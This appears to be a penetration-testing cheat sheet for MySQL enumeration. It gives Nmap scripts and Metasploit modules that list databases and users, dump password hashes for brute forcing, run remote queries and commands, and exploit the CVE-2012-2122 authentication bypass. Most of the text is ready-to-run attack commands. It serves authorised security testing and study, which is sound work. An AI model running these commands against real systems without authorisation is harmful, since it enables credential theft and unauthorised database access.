 # MySQL enumeration

## Nmap

Module that displays available databases:

    # nmap -sV --script mysql-databases <target>

Module that displays available users:

    # nmap -sV --script mysql-users <target>

Module that displays available variables:

    # nmap -sV --script mysql-variables <target>

Module that displays available users and their hash values in the form convenient for brute force attack (equivalent to 
`msf>use auxiliary/admin/mysql/mysql_hashdump`):

    # nmap -p 3306 <ip> --script mysql-dump-hashes –script args='username=root,password=secret'

Module that replaces MySQL client and sends queries to a remote database (equivalent to 
`msf>use auxiliary/admin/mysql/mysql_sql`):

    # nmap -p 3306 <ip> --script mysql-query --script-\ args='query="<query>"[,username=<username>,password=<password>]'

## Metasploit

```text
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

Requiring credentials:

```text
msf> use auxiliary/scanner/mysql/mysql_hashdump
msf> use auxiliary/admin/mysql/mysql_enum
msf> use auxiliary/scanner/mysql/mysql_schemadump
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

## CVE-2012-2122

The [CVE-2012-2122](https://www.cve.org/CVERecord?id=CVE-2012-2122) vulnerability allows remote users to bypass 
authentication due to improper checking of returned values. Only old systems are affected: Ubuntu Linux 64-bit (10.04, 
10.10, 11.04, 11.10, 12.04); OpenSuSE 12.1 64-bit MySQL 5.5.23-log; Debian Unstable 64-bit 5.5.23-2; Fedora; and Arch 
Linux. Still, worth checking for.

```text
msf > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf auxiliary(mysql_authbypass_hashdump) > set RHOSTS 172.16.2.54
msf auxiliary(mysql_authbypass_hashdump) > set USERNAME root
msf auxiliary(mysql_authbypass_hashdump) > exploit
```

For `nmap`, during the scanning, use the script `mysql-vuln-cve2012-2122`:

    nmap -sV --script mysql-vuln-cve2012-2122 <target>

## In a hurry

    # nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <target>